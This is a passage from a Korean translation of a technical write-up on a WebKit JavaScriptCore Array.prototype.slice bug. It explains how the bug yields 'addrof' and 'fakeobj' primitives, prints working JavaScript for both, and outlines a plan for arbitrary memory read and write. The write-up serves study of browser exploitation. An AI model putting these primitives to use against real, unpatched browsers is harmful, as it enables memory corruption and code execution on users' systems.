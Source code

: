 이제 우리가 찾고자 했던 객체의 주소값이 64bit 부동소수점의 형태로 배열 내에 저장되어 있을 것이다. slice()가 IndexingType을 보존하기 때문에 새로운 배열은 데이터를 네이티브 double 형으로 취급하여 부동소수점의 형태로 표현되는 것이다. 이렇게 임의의 JSValue 인스턴스, 즉 포인터를 릭할 수 있게 되었다.


기초단계 중 하나인 fakeobj는 이와 완전히 반대 방식으로 동작한다. 여기서는 JSValue 배열에 네이티브 double 형 값을 삽입해 JSObject 포인터를 만든다.

1. 객체들의 배열을 생성한다. 이 배열은 IndexingType ArrayWithContiguous로 보관된다
2. 다음과 같은 작업을 수행할 valueOf 함수를 가진 객체를 생성한다
	1. 이전에 만든 배열을 축소한다
	2. 새로운 배열을 할당하고, JSObject 로 얻고자 하는 주소를 비트패턴이 동일하게끔 double 형으로 변환하여 배열 안에 넣는다. 이 double 형 값으로 인해 배열의 IndexingType은 ArrayWithDouble으로 변환되며, 값은 native 형태로 저장된다.
	3. 버그를 트리거하기 위해 축소한 배열의 크기보다 큰 값을 리턴한다
3. 대상이 되는 배열이 slice()를 호출할때 2에서 생성된 객체를 인자값으로 사용한다.

완전성을 위해,  2가지 기초단계의 구현을 하단에 작성해 놨다.

```javascript
    function addrof(object) {
        var a = [];
        for (var i = 0; i < 100; i++)
            a.push(i + 0.1337);   // 배열의 타입이 반드시 ArrayWithDouble 여야 함

        var hax = {valueOf: function() {
            a.length = 0;
            a = [object];
            return 4;
        }};

        var b = a.slice(0, hax);
        return Int64.fromDouble(b[3]);
    }

    function fakeobj(addr) {
        var a = [];
        for (var i = 0; i < 100; i++)
            a.push({});     // 배열의 타입이 반드시 ArrayWithContiguous 여야 함

        addr = addr.asDouble();
        var hax = {valueOf: function() {
            a.length = 0;
            a = [addr];
            return 4;
        }};

        return a.slice(0, hax)[3];
    }
```

## 4.3 공격 계획

이제 우리의 목표는 가짜 자바스크립트 객체를 통해 읽기 및 쓰기가 가능한 임의의 메모리를 확보하는 것이다. 이를 위해선 먼저 해결되어야 할 문제들이 있다.

- Q1. 어떤 종류의 가짜 객체를 생성하려고 하는가?
- Q2. 그런 종류의 가짜 객체를 어떻게 만들어낼 수 있을까?
- Q3. 가짜 객체를 어디에 두어야 그 객체의 주소를 알 수 있을까?


[^1]: http://www.zerodayinitiative.com/advisories/ZDI-16-485/
[^2]: https://webkit.org/blog/3362/introducing-the-webkit-ftl-jit/
[^3]: http://trac.webkit.org/wiki/JavaScriptCore
[^4]: http://www.ecma-international.org/ecma-262/6.0/#sec-ecmascript-data-types-and-values
[^5]: http://www.ecma-international.org/ecma-262/6.0/#sec-objects
[^6]: https://en.wikipedia.org/wiki/Double-precision_floating-point_format
[^7]: http://www.ecma-international.org/ecma-262/6.0/#sec-array-exotic-objects
[^8]: http://www.ecma-international.org/
[^9]: https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/slice
[^10]: https://github.com/WebKit/webkit/blob/320b1fc3f6f47a31b6ccb4578bcea56c32c9e10b/Source/JavaScriptCore/runtime/ArrayPrototype.cpp#L848
[^11]: https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Symbol/species
[^12]: http://www.ecma-international.org/ecma-262/6.0/#sec-type-conversion
[^13]: https://bugzilla.mozilla.org/show_bug.cgi?id=735104
[^14]: https://bugzilla.mozilla.org/show_bug.cgi?id=983344
[^15]: https://bugs.chromium.org/p/chromium/issues/detail?id=554946
[^16]: https://www.gnu.org/software/guile/manual/html_node/Conservative-GC.html
[^17]: http://www.ecma-international.org/ecma-262/6.0/#sec-ecmascript-language-types-number-type
[^18]: http://www.ecma-international.org/ecma-262/6.0/#sec-typedarray-objects
[^19]: https://developers.google.com/v8/design#fast-property-access
[^20]: http://www.ecma-international.org/ecma-262/6.0/#sec-operations-on-objects
[^21]: http://www.ecma-international.org/ecma-262/6.0/#sec-ordinary-object-internal-methods-and-internal-slots-delete-p
[^22]: https://trac.webkit.org/wiki/WebKit2
[^23]: https://www.chromium.org/developers/design-documents/site-isolation